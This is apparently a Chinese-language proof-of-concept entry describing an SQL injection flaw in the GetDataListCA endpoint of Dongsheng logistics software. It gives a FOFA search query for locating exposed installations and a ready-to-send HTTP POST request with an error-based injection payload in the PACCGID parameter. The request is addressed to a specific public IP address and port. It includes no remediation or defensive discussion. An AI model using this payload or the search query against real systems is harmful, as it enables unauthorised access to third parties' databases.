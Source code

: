 东胜物流软件GetDataListCA接口存在SQL注⼊漏洞



fofa



body="FeeCodes/CompanysAdapter.aspx" || body="dhtmlxcombo\_whp.js" ||body="dongshengsoft" || body="theme/dhtmlxcombo.css"



poc



POST /MvcShipping/MsCwGenlegAccitems/GetDataListCA HTTP/1.1

Host: 47.104.182.212:8038

Content-Type: application/x-www-form-urlencoded



PACCGID=-1')and 1<@@VERSION--

